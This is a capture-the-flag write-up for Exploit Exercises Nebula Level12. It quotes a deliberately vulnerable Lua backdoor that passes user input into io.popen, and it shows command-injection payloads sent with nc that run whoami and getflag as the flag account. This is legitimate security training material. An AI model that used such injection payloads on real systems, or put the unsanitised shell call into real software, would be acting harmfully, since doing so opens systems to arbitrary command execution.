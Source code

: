 ```yaml
---
title: "Exploit Exercises Nebula Level12"
date: "2016-02-19"
slug: "exploit-exercises-nebula-level12"
Categories:
- Exploit Exercises
---
```


[Level12] informs us that "There is a backdoor process listening on port 50001."

We are also provided with **level12.lua**:

        local socket = require("socket")
        local server = assert(socket.bind("127.0.0.1", 50001))

        function hash(password)
          prog = io.popen("echo "..password.." | sha1sum", "r")
          data = prog:read("*all")
          prog:close()

          data = string.sub(data, 1, 40)

          return data
        end


        while 1 do
          local client = server:accept()
          client:send("Password: ")
          client:settimeout(60)
          local line, err = client:receive()
          if not err then
              print("trying " .. line) -- log from where ;\
              local h = hash(line)

              if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
                  client:send("Better luck next time\n");
              else
                  client:send("Congrats, your token is 413**CARRIER LOST**\n")
              end

          end

          client:close()
        end

<!--more-->

The above code accepts user input, hashes it, and compares it to a hard coded hash. The line that drew my attention was here:

        prog = io.popen("echo "..password.." | sha1sum", "r")

I found a great [write-up] on io.popen on Full Disclosure from May 2014.

"In Lua, this kind of vulnerability occurs, for example, when a developer uses
unvalidated user data to run operating system commands via the os.execute()
or io.popen() Lua functions."

That sounds like the exact code we are looking at - unvalidated user data via the io.popen() Lua function.

Let's attempt command injection:

        level12@nebula:/home/flag12$ nc 127.0.0.1 50001
        Password: $(whoami > /home/flag12/foo)
        Better luck next time
        level12@nebula:/home/flag12$ ls
        flag12.lua  foo
        level12@nebula:/home/flag12$ cat foo
        flag12

It worked! Since the output verified that the system commands are running as flag12, we should be able to execute getflag:

        level12@nebula:/home/flag12$ nc 127.0.0.1 50001
        Password: $(getflag > /home/flag12/bar)
        Better luck next time
        level12@nebula:/home/flag12$ ls
        bar  flag12.lua  foo
        level12@nebula:/home/flag12$ cat bar
        You have successfully executed getflag on a target account

Thanks for reading!

[Mike][]

[Level12]: https://exploit-exercises.com/nebula/level12/ "Level12"
[write-up]: http://seclists.org/fulldisclosure/2014/May/128 "write-up"
[Mike]: /contact "Contact Mike"
